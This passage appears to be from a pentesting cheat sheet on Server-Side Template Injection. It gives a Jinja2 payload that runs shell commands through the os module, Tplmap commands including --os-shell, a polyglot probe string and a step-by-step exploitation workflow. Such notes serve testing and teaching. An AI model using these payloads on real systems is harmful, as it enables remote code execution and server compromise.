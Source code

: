 Once internal objects are accessible, escalate to RCE or file access.

**Example (Jinja2):**

```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

---

## Tools

### Tplmap

[Tplmap](https://github.com/epinna/tplmap) automates the detection and exploitation of SSTI vulnerabilities.

**Usage Examples:**

```bash
python2.7 tplmap.py -u 'http://target.com/page?name=John*' --os-shell
python2.7 tplmap.py -u "http://target.com/page?user=*&comment=hello"
python2.7 tplmap.py -u "http://target.com/ti?user=InjectHere*&comment=A" --level 5 -e jade
```

---

## Summary: SSTI Exploitation Workflow

```text
1. Identify user input reflection
2. Inject polyglot payload: ${{<%[%'"}}%\.
3. Test for evaluation ({{7*7}}, ${7*7}, <%= 7*7 %>)
4. Observe output or error to confirm SSTI
5. Determine the template engine by syntax or stack trace
6. Enumerate internal objects
7. Exploit: Execute commands, read files, escalate privileges
```

---

## Summary Notes: “Template Engines Injection 101” by 0xAwali

**Source:** [Template Engines Injection 101 – @0xAwali](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

---

### 🔍 Overview

The post explores how **Server-Side Template Injection (SSTI)** vulnerabilities arise, how to detect them, and how different engines behave under injection. It also provides payloads and error-based fingerprinting methods for accurate engine identification.

---